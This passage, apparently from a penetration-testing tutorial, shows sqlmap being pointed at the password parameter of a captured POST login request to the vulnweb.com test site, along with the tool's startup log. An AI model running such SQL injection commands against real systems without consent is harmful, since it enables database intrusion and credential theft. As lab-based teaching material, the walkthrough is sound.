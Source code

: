    ![sqlmap post](/assets/img/posts/sqlmap/2.png)

2. Use `sqlmap` with `-r` flag to read file to get the information to attack in the POST request. `-p` is the parameter we are attacking.

```shell
┌──(dyl4n㉿kali)-[~]
└─$ sqlmap -r req.txt -p tfUPass
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.2#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:26:50 /2023-04-20/

[13:26:52] [INFO] parsing HTTP request from 'search-test.txt'
[13:26:52] [WARNING] the testable parameter 'tfUPass' you provided is not into the GET
[13:26:52] [WARNING] the testable parameter 'tfUPass' you provided is not into the Cookie
[13:26:52] [INFO] using '/home/testuser/sqlmap/output/testasp.vulnweb.com/session' as session file
[13:26:52] [INFO] resuming injection data from session file
[13:26:52] [WARNING] there is an injection in POST parameter 'tfUName' but you did not provided it this time
[13:26:52] [INFO] testing connection to the target url
[13:26:53] [INFO] testing if the url is stable, wait a few seconds
[13:26:55] [INFO] url is stable
```